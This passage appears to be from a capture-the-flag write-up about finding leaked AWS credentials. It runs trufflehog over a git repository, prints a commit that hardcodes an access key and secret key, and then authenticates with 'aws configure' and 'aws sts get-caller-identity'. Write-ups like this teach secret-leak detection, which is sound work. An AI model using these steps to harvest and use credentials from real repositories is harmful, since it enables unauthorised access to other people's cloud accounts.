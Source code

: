 ```
-    PolicyDocument='{"Version":"2012-10-17","Statement":[{"Effect":"Allow","Action":["ssm:SendCommand"],"Resource":["arn:aws:ec2:us-east-1:748127089694:instance/i-0415bfb7dcfe279c5","arn:aws:ec2:us-east-1:748127089694:document/RestartServices"]}]}',
-    PolicyName='AllAccessPolicy',
-    UserName='elf_test',
-)
```

#### Answer: `put_policy.py`

## Exploitation via AWS CLI:

[![Exploitation via AWS CLI](https://img.youtube.com/vi/GDE26Mc39S0/hqdefault.jpg)](https://www.youtube.com/watch?v=GDE26Mc39S0)


```    
trufflehog https://haugfactory.com/asnowball/aws_scripts.git 
```

- Alternatively, you may need to git clone repo and git checkout the commit where secrets were found and cat put_policy.py to view the secret access key

```
Reason: High Entropy
Date: 2022-09-07 10:53:32
Hash: 3476397f95da11a776d4118f1f9ae6c9d4afd0c9
Filepath: put_policy.py
Branch: origin/main
Commit: added

@@ -4,8 +4,8 @@ import json

iam = boto3.client('iam',
    region_name='us-east-1',
-    aws_access_key_id=ACCESSKEYID,
-    aws_secret_access_key=SECRETACCESSKEY,
+    aws_access_key_id="AKIAAIDAYRANYAHGQOHD",
+    aws_secret_access_key="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",
)
# arn:aws:ec2:us-east-1:accountid:instance/*
response = iam.put_user_policy(
```

### aws configure (enter settings)

```
aws sts get-caller-identity

{
    "UserId": "AIDAJNIAAQYHIAAHDDRA",
    "Account": "602123424321",
    "Arn": "arn:aws:iam::602123424321:user/haug"
}
```
